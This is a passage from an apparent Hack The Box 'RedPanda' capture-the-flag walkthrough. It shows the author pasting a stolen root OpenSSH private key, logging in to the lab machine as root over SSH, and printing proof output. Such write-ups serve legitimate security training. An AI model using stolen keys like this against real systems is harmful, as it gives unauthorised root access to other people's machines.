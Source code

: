 ```bash
┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ nano id_rsa

┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ cat id_rsa        
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
```
Now we have to set the correct permissions on the SSH key for the root user.
```
┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ chmod 600 id_rsa 
```
Since everything is set we can try to logon to the victim as root user.
```
┌──(emvee㉿kali)-[~/Documents/HTB/RedPanda]
└─$ ssh root@$ip -i id_rsa       
The authenticity of host '10.129.227.207 (10.129.227.207)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.227.207' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 20 May 2024 09:41:02 AM UTC

  System load:           0.0
  Usage of /:            80.9% of 4.30GB
  Memory usage:          45%
  Swap usage:            0%
  Processes:             217
  Users logged in:       0
  IPv4 address for eth0: 10.129.227.207
  IPv6 address for eth0: dead:beef::250:56ff:fe94:abcc


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Jun 30 13:17:41 2022
root@redpanda:~# 

```
Now one more step left. We should capture the proof on the target. We should do that like we want to pwn the OSCP exam.
```bash
root@redpanda:~# whoami;id;hostname;ip a ;cat root.txt
root
uid=0(root) gid=0(root) groups=0(root)
redpanda
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
```